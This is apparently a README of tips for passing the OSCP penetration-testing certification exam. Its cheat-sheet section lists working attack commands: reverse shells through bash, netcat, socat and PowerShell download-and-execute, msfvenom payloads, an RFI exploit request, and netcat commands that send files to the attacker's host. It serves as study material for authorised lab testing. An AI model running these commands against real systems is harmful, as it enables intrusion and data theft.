 # Four OSCP Tips

I completed all five OSCP exam machines in 9.5 hours and I did not use Metasploit. Here are four tips that will help you pass your OSCP exam:

## 1. Tame your terminal

Export variables and set aliases for commands that you will frequently use in your `.bashrc` file. I recommend the following: 
* Store your OSCP lab and exam content on your host machine and share it with your PWK virtual machine using VMWare's shared folders feature. Use the following alias to conveniently mount the shared drives inside of the virtual machine: 
	```
	alias "mount-shared-folders=
	vmware-hgfsclient | while read folder; do
		echo \"[i] Mounting ${folder} (/mnt/hgfs/${folder})\";
		mkdir -p \"/mnt/hgfs/${folder}\";
		umount -f \"/mnt/hgfs/${folder}\" 2>/dev/null;
		vmhgfs-fuse -o allow_other -o auto_unmount \".host:/${folder}\" \"/mnt/hgfs/${folder}\";
	done"
	```	
* You will frequently use tools that will require you to type out the target machine's IP address and/or your VPN IP address. Export these values to variables to save time and prevent typos:
	```
	export targ=x.x.x.x
	export tun0=$(/sbin/ip -o -4 addr list tun0 | awk '{print $4}' | cut -d/ -f1)
	```
	After you've finished a machine and changed the `targ` variable, use `source` to reload `.bashrc` for the current session:
	```
	source ~/.bashrc
	```
	Example: use the following to exploit an RFI vulnerability (the unicorns of web application hacking):
	```
	curl "http://$targ/vuln_page.php?file=http://$tun0:8888/payload.php"
	```
		
* Not OSCP-specific but you can use `xclip` and an alias to copy and paste while keeping both hands on the keyboard:
	```
	alias "c=xclip -selection clipboard"
	alias "v=xclip -o -selection clipboard"
	```
	Example: use the following to review a `searchsploit` result:
	```
	locate windows/remote/1.c | c ; less `v`
	```
* You will frequently use a webserver to transfer files to a target machine. Create a shared folder for these files and make an alias to spin up the webserver:
	```
	alias "webserver=
		webserver_dir=/home/user/www;
		ls -laR $webserver_dir;
		python3 -m http.server 8888 --directory $webserver_dir --bind $tun0"
	```
## 2. Connect with the OSCP community
There are a handful of Discord servers with OSCP text channels and one of them is InfoSec Prep which has ~17,000 members as of 1/1/2020: https://discord.gg/mS5tzTuyR2.

## 3. Study for the *exam*
While completing the PWK exercises and labs you will learn essential offensive security concepts like post-exploitation and lateral movement which will not be tested during the OSCP exam. Additionally, in 2020 Offensive Security updated the course (https://www.offensive-security.com/offsec/pwk-2020-update/) to incude a lot of new content including Active Directory and Powershell Empire modules which will also not be tested during the OSCP exam according to the update announcement: "At this time, the OSCP exam, proctoring, and certification procedures will remain the same." You could ignore these essential concepts (at a detriment to your professional development) if your only goal is to pass the OSCP exam. 

## 4. Make your own cheat sheets
Every J. Random Hacker has published an OSCP cheat sheet:
![Google cheat sheet result count](google_cheat_sheet_count.png)
and their work is helpful to you but not nearly as helpful as creating your own. I recommend that you create at least 3 documents as you progress through the PWK exercises and lab machines. The following are snippets from the three cheat sheets that I recommend you develop:
1. An enumeration cheat sheet:
	```
	PORT SCAN
	=========
	sudo nmap -v -Pn -A $targ -oN nmap_default-ports ;\
	sudo nmap -v -Pn -sV --script vuln $targ -oN nmap_vulns ;\
	sudo nmap -v -Pn -p- $targ -oN nmap_all-ports

	SERVICE ENUMERATION
	===================
	21 FTP
	22 SSH
		* OpenSSH <= 7.7 has username enumeration vulnerability
			* python sshUsernameEnumExploit.py --userList /usr/share/wordlists/metasploit/unix_users.txt $targ
				* source: https://github.com/BlackDiverX/ssh-user-enumeration
			* python 45939.py $targ root
		* server only accepts legacy algorithms?  "no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1 ...""
			* connect using legacy algorithm: ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 $user@$targ 
	25 SMTP
		* run SMTP nmap scripts: nmap -p 25 --script=smtp-* $targ
		* enumerate local linux users: smtp-user-enum.pl -M VRFY/EXPN/RCPT -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $targ	
		* shellshock RCE vulnerability exists for postfix smtp server w/procmail
			* PoC: https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
	...
	```
	2. A Linux cheat sheet with shells, file transfer methods, and privilege escalation methods:
	```
	SHELLS
	======
	* bash -i >& /dev/tcp/$tun0/4444 0>&1
	* msfvenom -p linux/x86/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell86.elf
	* msfvenom -p linux/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell.elf
	* nc -e /bin/bash $tun0 4444
	* nc -c /bin/bash $tun0 4444
	* socat tcp:$tun0:4444 exec:"bash -i",pty,stderr,setsid,sigint,sane
		* socat -,raw,echo=0 tcp-listen:4444 //to catch the shell
	* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $tun0 4444 >/tmp/f
		* netcat shell for nc without -e or -c
		* sourced from: https://ostrokonskiy.com/posts/linux-privilege-escalation-cheatsheet.html
	...
		
	DOWNLOAD FILES TO TARGET
	========================
	* scp $file $user@$targ:~/$file
	* curl http://$tun0:8888/$file -o /tmp/$file
	* wget http://$tun0:8888/$file -O /tmp/$file
	* axel http://$tun0:8888/$file -o /tmp/$file
	...
	
	CRONJOBS
	========
	* use pspy to view short-lived processes
	* check cron log file for cronjobs in execution
		grep "CRON" /var/log/syslog*
	* list all /etc/cron files
		ls -lhra /etc/cron*
	* check /etc/crontab- sometimes sysadmins put tasks
	* users can create cronjobs with crontab -e
		* without adequate permissions we cannot view other users' crontabs
		* crontabs are stored in /var/spool/cron/crontabs/$user
	...
	```
	3. A Windows cheat sheet with shells, file transfer methods, and privilege escalation methods:
	```
	SHELLS
	======
	* msfvenom -p windows/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged64.exe
	* msfvenom -p windows/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged86.exe
	* nc.exe $tun0 4444 -e cmd.exe
	* powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://$tun0:8888/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress $tun0 -Port 4444"
	* powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$tun0:8888/powercat.ps1'); powercat -l -p 4444 -e cmd"
	...
	
	UPLOAD FILES TO ATTACKER
	========================
	* nc -nvlp 6666 > $file
		* to receive
	* nc.exe $tun0 6666 -w 3 < $file.out
	* Get-Content $file.out | ./nc64.exe -w 3 $tun0 6666
		* useful for cases without '<'
	* cmd /c 'C:\Users\$user\Documents\nc64.exe -w 3 $tun0 6666 < $file'
	* sudo impacket-smbserver smb_share $directory
		* copy $file.out \\$tun0\smb_share\
	...
	
	GENERAL PRIV ESC
	================
	* whoami /all
		* look for: SeImpersonate, SeAssignPrimary, SeTcb, SeBackup, SeRestore, SeCreateToken, SeLoadDriver, SeTakeOwnership, or SeDebug
			* source: https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
	* net localgroup Administrators
		* shows who is inside Administrators group
	* dir /b /s *.ext
		* search for files with file extension
	* dir /r
		* view alternate data streams
	* type C:\Users\$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
		* review user's powershell history
	...
	```
	
Good luck!